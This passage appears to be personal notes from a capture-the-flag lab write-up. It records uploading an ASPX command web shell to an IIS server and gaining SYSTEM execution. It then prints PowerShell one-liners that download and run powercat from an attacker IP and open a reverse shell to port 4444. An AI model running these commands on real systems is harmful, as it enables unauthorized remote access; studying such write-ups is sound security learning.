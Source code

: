 got `aspx` cmd shell because `iis` server from `https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx` and uploaded
![[Pasted image 20240531114441.png]]
navigated to the uploaded file and see that we have command execution as system
![[Pasted image 20240531114712.png]]
pulling over file
```bash
/c powershell iex(iwr http://10.10.14.39:8000/powercat.ps1 -useb)

# this one worked
/c powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.39:8000/powercat.ps1');powercat -c 10.10.14.39 -p 4444 -e cmd"
```
![[Pasted image 20240531115217.png]]

![[Pasted image 20240531115530.png]]
got a shell
![[Pasted image 20240531115550.png]]
